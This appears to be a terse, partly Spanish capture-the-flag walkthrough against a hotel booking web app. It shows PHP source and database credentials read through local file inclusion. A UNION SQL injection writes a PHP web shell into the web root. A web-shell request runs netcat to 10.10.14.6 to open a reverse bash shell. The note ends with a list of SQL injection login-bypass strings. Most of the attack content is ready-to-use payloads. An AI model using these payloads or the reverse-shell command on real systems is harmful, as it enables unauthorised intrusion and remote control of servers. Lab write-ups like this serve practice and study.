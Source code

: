 * lfi 2

```
/var/www/html/index.php

<?php
          error_reporting(0);
          include("connection.php");
          include("roomobj.php");
          $result=$connection->query("select * from room");
          while($line=mysqli_fetch_array($result)){
            $room=new Room();
            $room->cod=$line['cod'];
            $room->name=$line['name'];
            $room->price=$line['price'];
            $room->star=$line['star'];
            $room->image=$line['image'];
            $room->mini=$line['mini'];

            $room->printRoom();
            }
          ?>
```
*  LFI 3

```
/var/www/html/connection.php

$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');

```
* Reverse shell

```
la creamos

/room.php?cod=-1 UNION SELECT NULL,1,1,4,"<?php system($_GET[\"cmd\"]); ?>",NULL,NULL into OUTFILE"/var/www/html/shell3.php"
```
```
la iniciamos

/shell3.php?cmd=nc -nv 10.10.14.6 4444 -e /bin/bash
```

# second order sqli
---

registramos cuentas con un sqli por ejemplo

```
rop' or 2=2 #
' or 0=0 ​ --
' or 0=0 #
' or 0=0 #"
' or '1'='1'​ --
' or 1 ​ --'
' or 1=1​ --
' or 1=1 or ''='
' or 1=1 or ""=
' or a=a​ --
' or a=a
') or ('a'='a
'hi' or 'x'='x';
```
